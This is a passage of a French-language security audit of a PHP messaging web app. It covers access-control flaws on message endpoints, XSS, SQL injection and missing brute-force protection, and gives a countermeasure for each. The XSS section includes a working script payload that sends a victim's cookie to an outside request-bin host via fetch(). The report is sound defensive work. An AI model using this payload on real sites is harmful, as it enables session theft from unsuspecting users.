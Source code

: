 Il est possible pour un utilisateur de lire, supprimer ou répondre à n'importe quel message contenu dans la base de données.

#### Exploitation

Il lui suffit simplement de visiter un des liens suivants en changeant l'id affiché :
* `/delete.php?delete=<id>`,
* `/read.php?message=<id>`,
* `/send.php?message=<id>`.

#### Contre mesure

Afin de  se  protéger contre cette vulnérabilité, une vérification a été rajoutée. Toute action sur un message doit être effectuée par le récipient du message. Cela a été corrigé dans les requêtes SQL correspondantes.

## 3. XSS

#### Menace

L'application est vulnérable aux injections XSS puisque le code HTML et Javascript est interprété lorsqu'il se trouve à certains endroits critiques comme :

* le corps d'un message et son sujet,
* le nom et prénom d'un utilisateur.

#### Exploitation

Il est donc tout à fait possible d'injecter du code Javascript pour, par exemple, récupérer le cookie d'un utilisateur à son insu en envoyant le message suivant :

```html
Corps du message…
</textarea> <!-- afin que ce qui suit ne s'affiche pas dans la réponse au message -->
<script>fetch('https://enons72ccci9o.x.pipedream.net/' + document.cookie)</script>
```

#### Contre mesure

Afin que le code HTML et Javascript ne puisse être interprété (lorsqu'il est injecté dans du code HTML), nous avons échappé les données provenant de l'utilisateur en utilisant la fonction PHP `htmlspecialchars`. Cela a été implémenté dans la fonction `anti_xss` dans `secure.php`.

## 4. Injections SQL

Aucune possibilité d'injection SQL n'a été trouvée car nous utilisons la librairie PDO et ses méthodes `prepare` et `execute`. Celles-ci fournissent déjà un niveau de protection contre les injections SQL.

## 5. Brute force

#### Menace

L'application ne dispose d'aucune protection contre le brute force, que ce soit lors du login d'un utilisateur, lorsqu'un utilisateur change son mot de passe (et qu'il doit rentrer son mot de passe actuel) ou dans l'interface d'administration.
